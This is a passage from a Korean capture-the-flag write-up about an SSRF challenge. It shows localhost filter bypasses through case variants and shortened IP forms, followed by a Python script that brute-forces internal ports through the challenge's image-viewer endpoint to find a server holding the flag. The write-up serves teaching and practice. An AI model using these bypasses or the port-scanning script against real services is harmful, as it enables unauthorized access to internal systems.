 ### 3. `localhost`의 alias 이용

URL에서 호스트와 스키마(`http`)는 대소문자를 구분하지 않는다.

따라서 `localhost`가 아닌 `Localhost`를 전달해주어도 같은 호스트를 가리키기 때문에 필터링을 우회할 수 있다.

<br>

#### Proof-of-Concept

위 내용들을 확인해보기 위해서는, `/img_viewer` 엔드포인트에서 위 URL을 전달해보면서 필터링에 걸리지 않는지 확인해보면 된다.

예를 들어서, `http://127.255:8000/static/dream.png`를 전달하면 아래와 같이 필터링을 잘 통과하여 `/static/dream.png` 파일을 가져오는 것을 확인할 수 있다.

<img width="1032" alt="image" src="https://github.com/user-attachments/assets/a764a687-5a50-4c99-adb7-1545c4045348">

또는, `http:/127.255:8000`을 전달해주면 `<img src>` 속성 값에 기본 템플릿이 `base.html` 파일의 내용이 base64 인코딩 + utf8 디코딩 되어 있는 것을 통해 확인해볼 수도 있다.

참고로, 이건 `8000`번 포트로 접속하는 것이므로 정적 리소스를 반환하는 `local_server`의 반환 방식과는 다르다. (`local_server`의 반환 방식은 아래에서 설명)

<br>

## 랜덤한 포트 찾기

정적 리소스를 반환해주는 `local_server`에서는 아래와 같은 코드를 통해 1500 ~ 1800 번 포트 중 랜덤한 포트로 로컬 서버를 열어주었다.

```
local_port = random.randint(1500, 1800)
```

`8000`번에서는 `flag.txt` 파일의 경로로 `GET` 요청을 보내도 해당 파일을 반환하도록 설정해주지 않았기 때문에, `local_server`를 통해 `flag.txt` 파일을 반환받아야 하기 때문에 해당 웹 서버의 포트 번호를 찾아야한다.

랜덤으로 설정해준 포트 번호는, 아래와 같이 파이썬의 `requests` 모듈을 활용한 스크립트를 통해 알아낼 수 있다.

```py
import requests
import sys
from tqdm import tqdm

# `src` value of "NOT FOUND X"
NOTFOUND_IMG = "iVBORw0KG"


def send_img(img_url):
    global chall_url
    data = {
        "url": img_url,
    }
    response = requests.post(chall_url, data=data)
    return response.text


def find_port():
    for port in tqdm(range(1500, 1801)):
        img_url = f"http://Localhost:{port}"
        if NOTFOUND_IMG not in send_img(img_url):
            print(f"Internal port number is: {port}")
            break
    return port


if __name__ == "__main__":
    chall_port = int(sys.argv[1])
    chall_url = f"http://host3.dreamhack.games:{chall_port}/img_viewer"
    internal_port = find_port()
```